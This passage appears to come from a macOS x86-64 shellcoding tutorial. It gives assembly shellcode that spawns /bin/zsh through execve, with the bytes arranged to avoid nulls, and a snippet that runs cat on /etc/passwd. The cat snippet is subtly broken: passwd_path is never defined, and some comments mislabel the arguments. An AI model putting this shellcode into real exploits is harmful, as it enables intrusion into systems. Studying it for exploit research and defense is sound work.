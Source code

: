 ```armasm
bits 64
global _main
_main:
    call    r_cmd64
    db '/bin/zsh', 0
r_cmd64:                      ; the call placed a pointer to db (argv[2])
    pop     rdi               ; arg1 from the stack placed by the call to l_cmd64
    xor     rdx, rdx          ; store null arg3
    push    59                ; put 59 on the stack (execve syscall)
    pop     rax               ; pop it to RAX
    bts     rax, 25           ; set the 25th bit to 1 (to add 0x2000000 without using null bytes)
    syscall
```

**with stack**

```armasm
bits 64
global _main

_main:
    xor     rdx, rdx          ; zero our RDX
    push    rdx               ; push NULL string terminator
    mov     rbx, '/bin/zsh'   ; move the path into RBX
    push    rbx               ; push the path, to the stack
    mov     rdi, rsp          ; store the stack pointer in RDI (arg1)
    push    59                ; put 59 on the stack (execve syscall)
    pop     rax               ; pop it to RAX
    bts     rax, 25           ; set the 25th bit to 1 (to add 0x2000000 without using null bytes)
    syscall
```

#### Read with cat

The goal is to execute `execve("/bin/cat", ["/bin/cat", "/etc/passwd"], NULL)`, so the second argument (x1) is an array of params (which in memory these means a stack of the addresses).

```armasm
bits 64
section .text
global _main

_main:
    ; Prepare the arguments for the execve syscall
    sub rsp, 40         ; Allocate space on the stack similar to `sub sp, sp, #48`

    lea rdi, [rel cat_path]   ; rdi will hold the address of "/bin/cat"
    lea rsi, [rel passwd_path] ; rsi will hold the address of "/etc/passwd"

    ; Create inside the stack the array of args: ["/bin/cat", "/etc/passwd"]
    push rsi   ; Add "/etc/passwd" to the stack (arg0)
    push rdi   ; Add "/bin/cat" to the stack (arg1)

    ; Set in the 2nd argument of exec the addr of the array
    mov rsi, rsp    ; argv=rsp - store RSP's value in RSI

    xor rdx, rdx    ; Clear rdx to hold NULL (no environment variables)

    push    59      ; put 59 on the stack (execve syscall)
    pop     rax     ; pop it to RAX
    bts     rax, 25 ; set the 25th bit to 1 (to add 0x2000000 without using null bytes)
    syscall         ; Make the syscall

section .data
cat_path:      db "/bin/cat", 0
```